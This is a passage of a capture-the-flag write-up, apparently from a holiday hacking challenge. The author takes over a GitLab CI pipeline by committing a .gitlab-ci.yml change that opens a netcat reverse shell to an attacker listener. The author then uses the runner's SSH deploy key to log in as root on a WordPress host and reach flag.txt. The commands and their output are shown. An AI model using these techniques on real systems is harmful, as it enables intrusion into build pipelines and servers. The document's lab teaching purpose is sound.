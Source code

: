 ```
   environment: production
   script:
-    - curl http://172.18.0.99:8000?teset=trueeeeeeeeeeeee
+    - curl "http://172.18.0.99:8000?teset=trueeeeeeeeeeeee"
```


I also tried wrapping the command in quotes based on this doc: https://docs.gitlab.com/ee/ci/yaml/script.html#use-special-characters-with-script. Still didn't work. I concluded that curl is not supported on the gitlab runner.

Next, I tried a netcat based approach. I set up a netcat listener on port 4444 and committed the following change:
```
grinchum-land:~/wordpress.flag.net.internal$ cat .gitlab-ci.yml 
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
    - nc 172.18.0.99 4444 -e /bin/bash
  ```

Soon...
```
grinchum-land:~$ nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 172.18.1.149 35659 received!
```

Now, let's use the private key to login to wordpress.flag.net.internal as root.

```
  ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal
Linux wordpress.flag.net.internal 5.10.51 #1 SMP Mon Jul 19 19:08:01 UTC 2021 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
whoami
root
```

```
ls
pwd
/root

ls
cd ..
ls
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
```